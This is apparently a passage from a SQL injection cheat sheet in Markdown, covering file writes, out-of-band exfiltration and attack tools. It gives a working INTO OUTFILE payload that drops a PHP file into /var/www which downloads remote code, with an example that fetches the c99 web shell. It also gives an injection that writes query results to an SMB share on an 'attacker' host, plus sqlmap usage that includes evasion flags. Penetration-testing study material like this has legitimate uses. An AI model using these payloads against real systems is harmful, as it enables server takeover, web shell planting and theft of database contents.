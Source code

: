     - Writing Files: INTO OUTFILE/DUMPFILE

    ```sql
    SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'
    ```

    And then access <http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt>

- **OOB**

  - *MySQL*:
    - SMB:

    ```sql
    ' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt
    ```

##### Tools

1) Slqmap

[sqlmap](http://sqlmap.org/) is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

```bash
python sqlmap.py -u 'http://victil.com/page.php?id=5'
```

- **-u**: Target URL
- **-r**: Load HTTP request from a file
  &rarr;
- **--crawl**: Crawl the website starting from the target URL
- **--forms**: Parse and test forms on target URL
- **--dbms**: Specify the database behind

Bypassing commands:

- **--referer**:  Bypass technique
- **--random-agent**: Use randomly selected HTTP User-Agent header value

Detection commands:

- **--risk**: Risk of tests to perform (1-3, default 1)
  - **1**: Default
  - **2**: Adds heavy query time-based SQL injections
  - **3**: Adds OR-based SQL injection tests.
- **--level**: Level of tests to perform (1-5, default 1)
  - **1**: Limited number of tests (requests) are performed
  - **2**: HTTP Cookie header values are tested
  - **3**: HTTP User-Agent/Referer headers are tested
  - **4**:
  - **5**:

2) BBQSQL

[BBQSQL](https://github.com/CiscoCXSecurity/bbqsql) is a blind SQL injection framework written in Python.
It is extremely useful when attacking tricky SQL injection vulnerabilities.
